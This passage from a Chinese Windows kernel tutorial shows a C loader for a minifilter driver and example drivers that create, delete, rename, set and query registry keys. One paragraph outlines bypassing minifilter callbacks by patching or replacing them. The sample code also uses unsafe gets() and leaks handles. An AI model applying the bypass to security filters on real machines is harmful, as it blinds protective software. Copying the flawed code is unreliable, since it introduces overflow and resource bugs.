passthrough.sys = 1,,

[SourceDisksNames]
1 = %DiskId1%,,,

[Strings]
Msft                    = "Microsoft Corporation"
ServiceDescription      = "WinDDK Mini-Filter Driver"
ServiceName             = "WinDDK"
DriverName              = "WinDDK"
DiskId1                 = "WinDDK Device Installation Disk"

DefaultInstance         = "WinDDK Instance"
Instance1.Name          = "WinDDK Instance"
Instance1.Altitude      = "370030"
Instance1.Flags         = 0x0              ; Allow all attachments
```
第二种安装方式则是通过字写驱动加载工具实现，本人更推荐使用此方式安装，此种方式的原理同样是向注册表中写出子健，但同时具备有启动与关闭驱动的功能，比INF安装更灵活易于使用，完整代码如下所示；
```c
#include <Windows.h>
#include <iostream>
#include <winsvc.h>
#include <winioctl.h>

// 安装MiniFinter
BOOL InstallDriver(const char* lpszDriverName, const char* lpszDriverPath, const char* lpszAltitude)
{
    char szTempStr[MAX_PATH];
    HKEY hKey;
    DWORD dwData;
    char szDriverImagePath[MAX_PATH];

    if (NULL == lpszDriverName || NULL == lpszDriverPath)
    {
        return FALSE;
    }

    // 得到完整的驱动路径
    GetFullPathName(lpszDriverPath, MAX_PATH, szDriverImagePath, NULL);

    SC_HANDLE hServiceMgr = NULL; // SCM管理器的句柄
    SC_HANDLE hService = NULL;    // NT驱动程序的服务句柄

    // 打开服务控制管理器
    hServiceMgr = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (hServiceMgr == NULL)
    {
        // OpenSCManager失败
        CloseServiceHandle(hServiceMgr);
        return FALSE;
    }

    // OpenSCManager成功  

    // 创建驱动所对应的服务
    hService = CreateService(hServiceMgr,
        lpszDriverName,             // 驱动程序的在注册表中的名字
        lpszDriverName,             // 注册表驱动程序的DisplayName 值
        SERVICE_ALL_ACCESS,         // 加载驱动程序的访问权限
        SERVICE_FILE_SYSTEM_DRIVER, // 表示加载的服务是文件系统驱动程序
        SERVICE_DEMAND_START,       // 注册表驱动程序的Start 值
        SERVICE_ERROR_IGNORE,       // 注册表驱动程序的ErrorControl 值
        szDriverImagePath,          // 注册表驱动程序的ImagePath 值
        "FSFilter Activity Monitor",// 注册表驱动程序的Group 值
        NULL,
        "FltMgr",                   // 注册表驱动程序的DependOnService 值
        NULL,
        NULL);

    if (hService == NULL)
    {
        if (GetLastError() == ERROR_SERVICE_EXISTS)
        {
            // 服务创建失败，是由于服务已经创立过
            CloseServiceHandle(hService);       // 服务句柄
            CloseServiceHandle(hServiceMgr);    // SCM句柄
            return TRUE;
        }
        else
        {
            CloseServiceHandle(hService);       // 服务句柄
            CloseServiceHandle(hServiceMgr);    // SCM句柄
            return FALSE;
        }
    }
    CloseServiceHandle(hService);       // 服务句柄
    CloseServiceHandle(hServiceMgr);    // SCM句柄

    //-------------------------------------------------------------------------------------------------------
    // SYSTEM\\CurrentControlSet\\Services\\DriverName\\Instances 子键下的键值项 
    //-------------------------------------------------------------------------------------------------------
    strcpy(szTempStr, "SYSTEM\\CurrentControlSet\\Services\\");
    strcat(szTempStr, lpszDriverName);
    strcat(szTempStr, "\\Instances");
    if (RegCreateKeyEx(HKEY_LOCAL_MACHINE, szTempStr, 0, "", TRUE, KEY_ALL_ACCESS, NULL, &hKey, (LPDWORD)&dwData) != ERROR_SUCCESS)
    {
        return FALSE;
    }
    // 注册表驱动程序的DefaultInstance 值 
    strcpy(szTempStr, lpszDriverName);
    strcat(szTempStr, " Instance");
    if (RegSetValueEx(hKey, "DefaultInstance", 0, REG_SZ, (CONST BYTE*)szTempStr, (DWORD)strlen(szTempStr)) != ERROR_SUCCESS)
    {
        return FALSE;
    }
    // 刷新注册表
    RegFlushKey(hKey);
    RegCloseKey(hKey);

    //-------------------------------------------------------------------------------------------------------
    // SYSTEM\\CurrentControlSet\\Services\\DriverName\\Instances\\DriverName Instance 子键下的键值项 
    //-------------------------------------------------------------------------------------------------------
    strcpy(szTempStr, "SYSTEM\\CurrentControlSet\\Services\\");
    strcat(szTempStr, lpszDriverName);
    strcat(szTempStr, "\\Instances\\");
    strcat(szTempStr, lpszDriverName);
    strcat(szTempStr, " Instance");
    if (RegCreateKeyEx(HKEY_LOCAL_MACHINE, szTempStr, 0, "", TRUE, KEY_ALL_ACCESS, NULL, &hKey, (LPDWORD)&dwData) != ERROR_SUCCESS)
    {
        return FALSE;
    }
    // 注册表驱动程序的Altitude 值
    strcpy(szTempStr, lpszAltitude);
    if (RegSetValueEx(hKey, "Altitude", 0, REG_SZ, (CONST BYTE*)szTempStr, (DWORD)strlen(szTempStr)) != ERROR_SUCCESS)
    {
        return FALSE;
    }
    // 注册表驱动程序的Flags 值
    dwData = 0x0;
    if (RegSetValueEx(hKey, "Flags", 0, REG_DWORD, (CONST BYTE*)&dwData, sizeof(DWORD)) != ERROR_SUCCESS)
    {
        return FALSE;
    }
    // 刷新注册表
    RegFlushKey(hKey);
    RegCloseKey(hKey);
    return TRUE;
}

// 启动驱动
BOOL StartDriver(const char* lpszDriverName)
{
    SC_HANDLE schManager;
    SC_HANDLE schService;
    SERVICE_STATUS svcStatus;

    if (NULL == lpszDriverName)
    {
        return FALSE;
    }

    schManager = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (NULL == schManager)
    {
        CloseServiceHandle(schManager);
        return FALSE;
    }
    schService = OpenService(schManager, lpszDriverName, SERVICE_ALL_ACCESS);
    if (NULL == schService)
    {
        CloseServiceHandle(schService);
        CloseServiceHandle(schManager);
        return FALSE;
    }

    if (!StartService(schService, 0, NULL))
    {
        CloseServiceHandle(schService);
        CloseServiceHandle(schManager);
        if (GetLastError() == ERROR_SERVICE_ALREADY_RUNNING)
        {
            // 服务已经开启
            return TRUE;
        }
        return FALSE;
    }

    CloseServiceHandle(schService);
    CloseServiceHandle(schManager);

    return TRUE;
}

// 关闭驱动
BOOL StopDriver(const char* lpszDriverName)
{
    SC_HANDLE schManager;
    SC_HANDLE schService;
    SERVICE_STATUS svcStatus;
    bool bStopped = false;

    schManager = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (NULL == schManager)
    {
        return FALSE;
    }
    schService = OpenService(schManager, lpszDriverName, SERVICE_ALL_ACCESS);
    if (NULL == schService)
    {
        CloseServiceHandle(schManager);
        return FALSE;
    }
    if (!ControlService(schService, SERVICE_CONTROL_STOP, &svcStatus) && (svcStatus.dwCurrentState != SERVICE_STOPPED))
    {
        CloseServiceHandle(schService);
        CloseServiceHandle(schManager);
        return FALSE;
    }

    CloseServiceHandle(schService);
    CloseServiceHandle(schManager);

    return TRUE;
}

// 删除驱动
BOOL DeleteDriver(const char* lpszDriverName)
{
    SC_HANDLE schManager;
    SC_HANDLE schService;
    SERVICE_STATUS svcStatus;

    schManager = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (NULL == schManager)
    {
        return FALSE;
    }
    schService = OpenService(schManager, lpszDriverName, SERVICE_ALL_ACCESS);
    if (NULL == schService)
    {
        CloseServiceHandle(schManager);
        return FALSE;
    }
    ControlService(schService, SERVICE_CONTROL_STOP, &svcStatus);
    if (!DeleteService(schService))
    {
        CloseServiceHandle(schService);
        CloseServiceHandle(schManager);
        return FALSE;
    }
    CloseServiceHandle(schService);
    CloseServiceHandle(schManager);

    return TRUE;
}

int main(int argc, char* argv[])
{
    InstallDriver("minifilter", ".\\WinDDK.sys", "225864");

    while (1)
    {
        char str[20] = "\0";
        printf("请输入命令: ");
        gets(str);

        if (strcmp(str, "start") == 0)
        {
            printf("[*] 启动驱动 \n");
            StartDriver("minifilter");
        }
        if (strcmp(str, "stop") == 0)
        {
            printf("[-] 关闭驱动 \n");
            StopDriver("minifilter");
        }
    }
    return 0;
}
```

至此分别编译驱动程序，以及应用层下的安装程序，并将两者放入到同一目录下，运行客户端程序`lyshark.exe`并输入`start`启动驱动，输入`stop`则是关闭，启动后会看到如下信息；



这里简单介绍一下如何摘除微过滤驱动回调函数，其实摘除回调的方法有多种，常用的第一种通过向过滤驱动中写出一个返回命令让其不被执行从而实现绕过，另一种是找到回调函数并替换为我们自己的回调，而在自己的回调中什么也不做。

### 8.5 内核注册表增删改查

注册表是Windows中的一个重要的数据库，用于存储系统和应用程序的设置信息，注册表是一个巨大的树形结构，无论在应用层还是内核层操作注册表都有独立的API函数可以使用，而在内核中读写注册表则需要使用内核装用API函数，如下将依次介绍并封装一些案例，实现对注册表的创建，删除，更新，查询等操作。

在Windows内核中，注册表是一种存储系统配置信息的机制，包括应用程序、硬件、驱动程序和操作系统的各种设置。内核提供了一些API函数，可以让驱动程序通过代码访问和修改注册表，以实现系统的配置和管理。下面简单介绍一下内核中的注册表增删改查操作：

注册表查询

 - 在内核中，可以使用ZwQueryValueKey或ZwEnumerateValueKey函数查询指定键的值。其中，ZwQueryValueKey函数可以查询指定键的值，而ZwEnumerateValueKey函数可以枚举指定键下的所有值。这两个函数都需要指定键的句柄和要查询的值的名称，查询结果将返回在指定的缓冲区中。

注册表修改

 - 在内核中，可以使用ZwSetValueKey函数修改指定键的值。该函数需要指定键的句柄、要修改的值的名称、值的类型和值的数据。在修改注册表时，需要注意权限和安全性问题，以避免潜在的安全问题。

注册表添加

 - 在内核中，可以使用ZwCreateKey函数创建一个新的键。该函数需要指定要创建键的父键的句柄、新键的名称、新键的属性等信息。如果成功创建了新键，则可以使用ZwSetValueKey函数向其添加值。

注册表删除

 - 在内核中，可以使用ZwDeleteValueKey函数删除指定键的值，或使用ZwDeleteKey函数删除指定键及其下面的所有子键和值。这两个函数都需要指定要删除的键的句柄或路径。在删除注册表时，同样需要注意权限和安全性问题，以避免潜在的安全问题。

需要注意的是，对注册表的操作可能会对系统的稳定性产生影响。因此，在实现这些技术时，需要遵循操作系统和安全软件的规定，以确保系统的安全和稳定。

#### 8.5.1 ZwCreateKey

创建注册表Key键，内核函数`ZwCreateKey`可用于创建新的注册表项或打开现有注册表项。

ZwCreateKey是Windows内核中的一个函数，用于创建一个新的注册表键（registry key）。它通常被驱动程序使用来添加新的配置信息或者修改已有的配置信息。

以下是ZwCreateKey函数的一般形式：
```c
NTSTATUS ZwCreateKey(
  _Out_ PHANDLE            KeyHandle,
  _In_  ACCESS_MASK        DesiredAccess,
  _In_  POBJECT_ATTRIBUTES ObjectAttributes,
  _Reserved_ ULONG         TitleIndex,
  _In_  PUNICODE_STRING    Class,
  _In_  ULONG              CreateOptions,
  _Out_ PULONG             Disposition
);
```

参数说明：

 - KeyHandle： 输出参数，指向新创建的注册表键的句柄（handle）。
 - DesiredAccess： 指定新创建的键所需的访问权限，比如KEY_QUERY_VALUE等，具体请参考MSDN文档。
 - ObjectAttributes： 指向一个OBJECT_ATTRIBUTES结构体的指针，该结构体包含了注册表键的一些属性信息，比如名称、路径等。
 - TitleIndex： 指定键的标题索引。
 - Class： 指向一个UNICODE_STRING结构体的指针，它用于指定新创建的键的类名。
 - CreateOptions： 指定创建键的选项，比如REG_OPTION_NON_VOLATILE等。
 - Disposition： 输出参数，指向一个ULONG类型的指针，返回创建的键的状态信息，比如REG_CREATED_NEW_KEY等。

函数执行成功时，将返回STATUS_SUCCESS，否则返回相应的错误代码。需要注意的是，在使用ZwCreateKey函数之前，必须先初始化OBJECT_ATTRIBUTES结构体，以包含要创建的注册表键的完整路径。

在使用ZwCreateKey函数时，需要注意权限和安全性问题，以避免潜在的安全问题。同时，需要仔细考虑键的类名、访问权限和创建选项等参数的设置，以确保所创建的键能够正确地满足应用程序的需求。
```c
#include <ntifs.h>

// 创建或者打开已存在注册表键
BOOLEAN MyCreateRegistryKeyA(UNICODE_STRING ustrRegistry)
{
    HANDLE hRegister = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    ULONG ulResult = 0;
    NTSTATUS status = STATUS_SUCCESS;

    // 创建或者打开已存在注册表键
    InitializeObjectAttributes(&objectAttributes, &ustrRegistry, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 创建Key
    status = ZwCreateKey(&hRegister,
        KEY_ALL_ACCESS,
        &objectAttributes,
        0,
        NULL,
        REG_OPTION_NON_VOLATILE,
        &ulResult);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }
    if (REG_CREATED_NEW_KEY == ulResult)
    {
        DbgPrint("[*] 注册表已被创建 \n");
    }
    else if (REG_OPENED_EXISTING_KEY == ulResult)
    {
        DbgPrint("[*] 注册表打开 \n");
    }

    // 关闭注册表键句柄
    ZwClose(hRegister);
    return TRUE;
}

// 创建键值对
BOOLEAN MyCreateRegistryKeyB(LPWSTR KeyName)
{
    OBJECT_ATTRIBUTES objectAttributes;
    UNICODE_STRING usKeyName;
    NTSTATUS ntStatus;
    HANDLE hRegister;

    RtlInitUnicodeString(&usKeyName, KeyName);

    // 初始化
    InitializeObjectAttributes(&objectAttributes, &usKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 创建Key
    ntStatus = ZwCreateKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes, 0, NULL, REG_OPTION_NON_VOLATILE, NULL);
    if (NT_SUCCESS(ntStatus))
    {
        DbgPrint("[*] 注册表已被创建 \n");
        ZwClose(hRegister);
        return TRUE;
    }
    else
    {
        DbgPrint("[*] 注册表创建失败 \n");
        return FALSE;
    }
    return FALSE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    BOOLEAN flag = FALSE;

    // 创建注册表键
    UNICODE_STRING ustrRegistry;
    RtlInitUnicodeString(&ustrRegistry, L"\\Registry\\Machine\\Software\\LySharkKeysA");
    flag = MyCreateRegistryKeyA(ustrRegistry);
    if (flag == TRUE)
    {
        DbgPrint("注册表键已创建 \n");
    }

    // 创建注册表键
    flag = MyCreateRegistryKeyB(L"\\Registry\\Machine\\Software\\LySharkKeysB");
    if (flag == TRUE)
    {
        DbgPrint("注册表键已创建 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上代码即可在`计算机\HKEY_LOCAL_MACHINE\SOFTWARE\`目录下分别创建`LySharkKeysA`和`LySharkKeysB`两个空目录，输出效果如下图；



**ZwDeleteKey:** 删除注册表Key键，内核函数`ZwDeleteKey`可从注册表中删除打开的项。

ZwDeleteKey是Windows内核中的一个函数，用于删除指定的注册表键（registry key）。它通常被驱动程序使用来删除不再需要的配置信息或者清理无用的键。

以下是ZwDeleteKey函数的一般形式：
```c
NTSTATUS ZwDeleteKey(
  _In_ HANDLE            KeyHandle
);
```

参数说明：

 - KeyHandle：要删除的键的句柄（handle）。

函数执行成功时，将返回STATUS_SUCCESS，否则返回相应的错误代码。需要注意的是，在使用ZwDeleteKey函数之前，需要先打开要删除的键，获取其句柄。

在使用ZwDeleteKey函数时，需要注意权限和安全性问题，以避免潜在的安全问题。同时，需要仔细考虑键的名称和路径等信息，确保要删除的键是正确的，并且不会对系统造成不良影响。

另外，需要注意的是，ZwDeleteKey函数只能用于删除空的注册表键。如果要删除非空的键，需要先递归地删除该键下的所有子键和值。
```c
#include <ntifs.h>

// 删除注册表键
BOOLEAN MyDeleteRegistryKeyA(UNICODE_STRING ustrRegistry)
{
    HANDLE hRegister = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    // 打开注册表键
    InitializeObjectAttributes(&objectAttributes, &ustrRegistry, OBJ_CASE_INSENSITIVE, NULL, NULL);
    status = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }
    // 删除注册表键
    status = ZwDeleteKey(hRegister);
    if (!NT_SUCCESS(status))
    {
        ZwClose(hRegister);
        return FALSE;
    }
    // 关闭注册表键句柄
    ZwClose(hRegister);
    return TRUE;
}

// 删除注册表键
BOOLEAN MyDeleteRegistryKeyB(LPWSTR KeyName)
{
    OBJECT_ATTRIBUTES objectAttributes;
    UNICODE_STRING usKeyName;
    NTSTATUS ntStatus;
    HANDLE hRegister;

    RtlInitUnicodeString(&usKeyName, KeyName);

    // 初始化
    InitializeObjectAttributes(&objectAttributes, &usKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);
    
    // 打开Key
    ntStatus = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (NT_SUCCESS(ntStatus))
    {
        ntStatus = ZwDeleteKey(hRegister);
        ZwClose(hRegister);
        return TRUE;
    }
    else
    {
        return FALSE;
    }
    return FALSE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    BOOLEAN flag = FALSE;

    // 删除注册表键
    UNICODE_STRING ustrRegistry;
    RtlInitUnicodeString(&ustrRegistry, L"\\Registry\\Machine\\Software\\LySharkKeysA");
    flag = MyDeleteRegistryKeyA(ustrRegistry);
    if (flag == TRUE)
    {
        DbgPrint("[*] 已删除 \n");
    }

    // 删除注册表键
    flag = MyDeleteRegistryKeyB(L"\\Registry\\Machine\\Software\\LySharkKeysB");
    if (flag == TRUE)
    {
        DbgPrint("[*] 已删除 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上程序，则可将`ZwCreateKey`创建的Key键删除，当尝试再次打开`LySharkKeysB`则会提示打开失败，输出效果如下所示；



#### 8.5.2 ZwRenameKey

重命名注册表Key键，内核函数`ZwRenameKey`可修改特定注册表键名，此函数需要自行导出。

ZwRenameKey是Windows内核中的一个函数，用于重命名一个指定的注册表键。它通常被驱动程序使用来更改配置信息或者重命名键。

以下是ZwRenameKey函数的一般形式：
```c
NTSTATUS ZwRenameKey(
  _In_ HANDLE            KeyHandle,
  _In_ PUNICODE_STRING   NewName
);
```

参数说明：

 - KeyHandle： 要重命名的键的句柄（handle）。
 - NewName： 新键名称的Unicode字符串。

函数执行成功时，将返回STATUS_SUCCESS，否则返回相应的错误代码。需要注意的是，在使用ZwRenameKey函数之前，需要先打开要重命名的键，获取其句柄。

在使用ZwRenameKey函数时，需要注意权限和安全性问题，以避免潜在的安全问题。同时，需要仔细考虑键的名称和路径等信息，确保要重命名的键是正确的，并且不会对系统造成不良影响。另外，需要确保新键名称是唯一的，且符合注册表键名称的规范。

需要注意的是，ZwRenameKey函数只能用于重命名单个键，如果需要批量重命名键，则需要自行实现递归操作。
```c
#include <ntifs.h>

// ZwRenameKey 需要自己导出
typedef NTSTATUS(__fastcall *ZWRENAMEKEY)(HANDLE KeyHandle, PUNICODE_STRING NewName);

ZWRENAMEKEY MyZwRenameKey = NULL;

// 根据函数名得到函数内存地址
PVOID GetFunctionAddr(PCWSTR FunctionName)
{
    UNICODE_STRING UniCodeFunctionName;
    RtlInitUnicodeString(&UniCodeFunctionName, FunctionName);
    return MmGetSystemRoutineAddress(&UniCodeFunctionName);
}

// 重命名注册表Key
BOOLEAN RegRenameKey(LPWSTR OldKeyName, LPWSTR NewKeyName)
{
    OBJECT_ATTRIBUTES objectAttributes;
    HANDLE hRegister;
    NTSTATUS ntStatus;
    UNICODE_STRING usOldKeyName, usNewKeyName;

    RtlInitUnicodeString(&usOldKeyName, OldKeyName);
    RtlInitUnicodeString(&usNewKeyName, NewKeyName);

    InitializeObjectAttributes(&objectAttributes, &usOldKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 得到函数内存地址
    MyZwRenameKey = (ZWRENAMEKEY)GetFunctionAddr(L"ZwRenameKey");

    ntStatus = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (NT_SUCCESS(ntStatus))
    {
        // 重命名Key键
        ntStatus = MyZwRenameKey(hRegister, &usNewKeyName);
        ZwFlushKey(hRegister);
        ZwClose(hRegister);
        return TRUE;
    }
    else
    {
        return FALSE;
    }
    return FALSE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    BOOLEAN flag = FALSE;

    // 重命名键
    flag = RegRenameKey(L"\\Registry\\Machine\\Software\\LySharkKeysA", L"SuperLyShark");
    if (flag == TRUE)
    {
        DbgPrint("[*] 已被重命名 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行这段驱动程序，自动将`LySharkKeysA`改名为`SuperLyShark`，输出效果如下所示；



#### 8.5.3 ZwSetValueKey

在键中创建Value值，在一个Key中增加一个新的值。

ZwSetValueKey是Windows内核中的一个函数，用于向指定的注册表键中写入值。它通常被驱动程序使用来修改或添加配置信息或者键值。

以下是ZwSetValueKey函数的一般形式：
```c
NTSTATUS ZwSetValueKey(
  _In_ HANDLE            KeyHandle,
  _In_ PUNICODE_STRING   ValueName,
  _In_opt_ ULONG         TitleIndex,
  _In_ ULONG             Type,
  _In_opt_ PVOID         Data,
  _In_ ULONG             DataSize
);
```

参数说明：

 - KeyHandle： 要写入值的键的句柄（handle）。
 - ValueName： 要写入值的名称的Unicode字符串。
 - TitleIndex： 零基索引，用于在键的名称列表中查找与ValueName相对应的索引值。
 - Type： 要写入的值的类型。
 - Data： 要写入的数据的指针。
 - DataSize： 要写入的数据的长度。

函数执行成功时，将返回STATUS_SUCCESS，否则返回相应的错误代码。需要注意的是，在使用ZwSetValueKey函数之前，需要先打开要写入值的键，获取其句柄。

在使用ZwSetValueKey函数时，需要注意权限和安全性问题，以避免潜在的安全问题。同时，需要仔细考虑键的名称和路径等信息，确保要写入值的键是正确的，并且不会对系统造成不良影响。另外，需要确保写入的数据类型和长度正确，以避免造成不必要的问题。

需要注意的是，ZwSetValueKey函数只能用于向单个键写入单个值，如果需要批量写入值，则需要自行实现循环操作。
```c
#include <ntifs.h>
#include <windef.h>

// 在键中增加值
BOOLEAN RegSetValueKey(LPWSTR KeyName, LPWSTR ValueName, DWORD DataType, PVOID DataBuffer, DWORD DataLength)
{
    OBJECT_ATTRIBUTES objectAttributes;
    UNICODE_STRING usKeyName, usValueName;
    NTSTATUS ntStatus;
    HANDLE hRegister;
    RtlInitUnicodeString(&usKeyName, KeyName);
    RtlInitUnicodeString(&usValueName, ValueName);

    InitializeObjectAttributes(&objectAttributes, &usKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开
    ntStatus = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (NT_SUCCESS(ntStatus))
    {
        // 设置注册表
        ntStatus = ZwSetValueKey(hRegister, &usValueName, 0, DataType, DataBuffer, DataLength);

        // 将请求刷新到磁盘
        ZwFlushKey(hRegister);
        ZwClose(hRegister);
        return TRUE;
    }
    else
    {
        return FALSE;
    }
    return FALSE;
}

// 添加或者修改注册表键值
BOOLEAN MySetRegistryKeyValue(UNICODE_STRING ustrRegistry, UNICODE_STRING ustrKeyValueName, ULONG ulKeyValueType, PVOID pKeyValueData, ULONG ulKeyValueDataSize)
{
    HANDLE hRegister = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    InitializeObjectAttributes(&objectAttributes, &ustrRegistry, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开注册表键
    status = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    // 添加或者修改键值
    status = ZwSetValueKey(hRegister, &ustrKeyValueName, 0, ulKeyValueType, pKeyValueData, ulKeyValueDataSize);
    if (!NT_SUCCESS(status))
    {
        ZwClose(hRegister);
        return FALSE;
    }

    // 关闭注册表键句柄
    ZwClose(hRegister);
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    BOOLEAN flag = FALSE;

    DWORD set_dw = 1024;
    BOOLEAN is_true = TRUE;
    WCHAR sz_char[256] = L"hello lyshark";

    // 新建设置value
    flag = RegSetValueKey(L"\\Registry\\Machine\\Software\\LySharkKeysA", L"is_auth", REG_DWORD, &set_dw, sizeof(set_dw));
    if (flag == TRUE)
    {
        DbgPrint("[*] 创建is_auth值成功 \n");
    }

    // 新建设置bool
    flag = RegSetValueKey(L"\\Registry\\Machine\\Software\\LySharkKeysA", L"is_trhe", REG_BINARY, &is_true, sizeof(is_true));
    if (flag == TRUE)
    {
        DbgPrint("[*] 创建is_true值成功 \n");
    }

    // 新建设置char
    flag = RegSetValueKey(L"\\Registry\\Machine\\Software\\LySharkKeysA", L"1001", REG_SZ, &sz_char, sizeof(sz_char));
    if (flag == TRUE)
    {
        DbgPrint("[*] 创建char值成功 \n");
    }

    // 添加注册表键值
    UNICODE_STRING ustrRegistry;
    UNICODE_STRING ustrKeyValueName;

    WCHAR wstrKeyValueData[] = L"I am LyShark";
    RtlInitUnicodeString(&ustrKeyValueName, L"1002");
    RtlInitUnicodeString(&ustrRegistry, L"\\Registry\\Machine\\Software\\LySharkKeysA");

    flag = MySetRegistryKeyValue(ustrRegistry, ustrKeyValueName, REG_SZ, wstrKeyValueData, sizeof(wstrKeyValueData));
    if (flag == TRUE)
    {
        DbgPrint("[*] 创建char值成功 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码，即可在`\\Registry\\Machine\\Software\\LySharkKeysA`分别创建一个整数，布尔值，字符串类型，效果图如下；



#### 8.5.4 ZwQueryValueKey

查询某个Key键中的值，调用后可输出特定键中的值。

ZwQueryValueKey是Windows内核中的一个函数，用于从指定的注册表键中读取指定值的数据。它通常被驱动程序使用来获取配置信息或者键值。

以下是ZwQueryValueKey函数的一般形式：
```c
NTSTATUS ZwQueryValueKey(
  _In_ HANDLE            KeyHandle,
  _In_ PUNICODE_STRING   ValueName,
  _In_ KEY_VALUE_INFORMATION_CLASS KeyValueInformationClass,
  _Out_opt_ PVOID        KeyValueInformation,
  _In_ ULONG             Length,
  _Out_ PULONG           ResultLength
);
```

参数说明：

 - KeyHandle： 要读取值的键的句柄（handle）。
 - ValueName： 要读取值的名称的Unicode字符串。
 - KeyValueInformationClass： 指定要获取的键值的信息类型。
 - KeyValueInformation： 存储读取的键值信息的缓冲区。
 - Length： KeyValueInformation缓冲区的大小。
 - ResultLength： 实际读取的键值信息的大小。

函数执行成功时，将返回STATUS_SUCCESS，否则返回相应的错误代码。需要注意的是，在使用ZwQueryValueKey函数之前，需要先打开要读取值的键，获取其句柄。

在使用ZwQueryValueKey函数时，需要注意权限和安全性问题，以避免潜在的安全问题。同时，需要仔细考虑键的名称和路径等信息，确保要读取值的键是正确的，并且不会对系统造成不良影响。另外，需要确保KeyValueInformation缓冲区的大小足够，以存储读取的键值信息。

需要注意的是，ZwQueryValueKey函数只能用于读取单个键的单个值，如果需要读取多个键的值，则需要自行实现循环操作。
```c
#include <ntifs.h>
#include <windef.h>

// 查询Key键中的Value值
BOOLEAN RegQueryValueKey(LPWSTR KeyName, LPWSTR ValueName, PKEY_VALUE_PARTIAL_INFORMATION *pkvpi)
{
    ULONG ulSize;
    NTSTATUS ntStatus;
    PKEY_VALUE_PARTIAL_INFORMATION pvpi;
    OBJECT_ATTRIBUTES objectAttributes;
    HANDLE hRegister;
    UNICODE_STRING usKeyName;
    UNICODE_STRING usValueName;

    RtlInitUnicodeString(&usKeyName, KeyName);
    RtlInitUnicodeString(&usValueName, ValueName);

    // 初始化
    InitializeObjectAttributes(&objectAttributes, &usKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开注册表Key
    ntStatus = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (!NT_SUCCESS(ntStatus))
    {
        return FALSE;
    }

    // 查询长度
    ntStatus = ZwQueryValueKey(hRegister, &usValueName, KeyValuePartialInformation, NULL, 0, &ulSize);
    if (ntStatus == STATUS_OBJECT_NAME_NOT_FOUND || ulSize == 0)
    {
        return FALSE;
    }

    // 分配空间保存查询结果
    pvpi = (PKEY_VALUE_PARTIAL_INFORMATION)ExAllocatePool(PagedPool, ulSize);
    ntStatus = ZwQueryValueKey(hRegister, &usValueName, KeyValuePartialInformation, pvpi, ulSize, &ulSize);
    if (!NT_SUCCESS(ntStatus))
    {
        return FALSE;
    }

    // 这里的pvpi未被释放，可在外部释放
    // 执行 ExFreePool(pvpi); 释放
    *pkvpi = pvpi;
    return TRUE;
}

// 查询注册表键值
BOOLEAN MyQueryRegistryKeyValue(UNICODE_STRING ustrRegistry, UNICODE_STRING ustrKeyValueName)
{
    HANDLE hRegister = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    NTSTATUS status = STATUS_SUCCESS;
    ULONG ulBufferSize = 0;
    PKEY_VALUE_PARTIAL_INFORMATION pKeyValuePartialInfo = NULL;

    // 初始化
    InitializeObjectAttributes(&objectAttributes, &ustrRegistry, OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开注册表Key
    status = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }
    // 先获取查询注册表键值所需缓冲区的大小
    status = ZwQueryValueKey(hRegister, &ustrKeyValueName, KeyValuePartialInformation, NULL, 0, &ulBufferSize);
    if (0 == ulBufferSize)
    {
        ZwClose(hRegister);
        return FALSE;
    }

    // 申请缓冲区
